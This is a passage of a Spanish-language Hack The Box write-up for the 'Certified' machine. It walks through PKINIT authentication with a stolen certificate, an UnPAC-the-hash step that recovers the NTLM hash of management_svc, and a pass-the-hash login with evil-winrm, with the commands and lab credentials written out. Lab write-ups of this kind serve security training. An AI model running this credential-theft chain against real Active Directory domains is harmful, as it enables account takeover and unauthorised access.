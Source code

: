 Realizo una autenticación mediante PKINIT para obtener un TGT del usuario `management_svc`, utilizando un certificado `.pfx` y su contraseña previamente obtenida.

```terminal
(Entorno_Python)-/home/kali/Documents/htb/machines/certified:-$ sudo python ~/Documents/github/PKINITtools/gettgtpkinit.py -cert-pfx B9d864l1.pfx -pfx-pass 1wTrdCQNVWS01dVJTvPS certified.htb/management_svc hhh.ccache
```

![](assets/img/htb-writeup-certified/certified2_2.png)

Configuro el archivo de caché de credenciales. Y vuelvo a sincronizar el tiempo para evitar problemas.

```terminal
/home/kali/Documents/htb/machines/certified:-$ export KRB5CCNAME=hhh.ccache

/home/kali/Documents/htb/machines/certified:-$ sudo ntpdate certified.htb
```

Por ultimo, Realizo un [UnPAC the hash](https://www.thehacker.recipes/ad/movement/kerberos/unpac-the-hash) para solicitar el hash NTLM del usuario `management_svc`.

```terminal
(Entorno_Python)-/home/kali/Documents/htb/machines/certified:-$ sudo python ~/Documents/github/PKINITtools/getnthash.py -key 13009a39adb679e473a6adb24f5b8d89416a891de7e91db5a1a6940c6569e24b certified.htb/management_svc
```

![](assets/img/htb-writeup-certified/certified2_3.png)

De esta manera, logro autenticarme a través de Evil-WinRM y obtener acceso remoto al sistema.

```terminal
evil-winrm -i certified.htb -u management_svc -H "a091c1832bcdd4677c28b5a6a1295584"

*Evil-WinRM* PS C:\Users\management_svc> cat Desktop/user.txt
```

---
## Lateral Movement
